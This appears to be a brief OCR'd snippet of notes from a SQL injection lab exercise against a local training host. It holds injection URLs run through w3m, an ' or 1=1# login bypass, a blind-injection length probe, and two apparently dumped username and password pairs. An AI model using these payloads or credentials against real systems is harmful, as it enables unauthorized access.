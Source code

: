 ```
w3m http://skillsetlocal.com:65412/login?username=\&password=
w3m http://skillsetlocal.com:65412/login?username='%20or%201=1#
```

root :: ga1Fc3S0fnI
skillsetuser :: password1

' or 1=1#
Iron Man' and length(database())=4#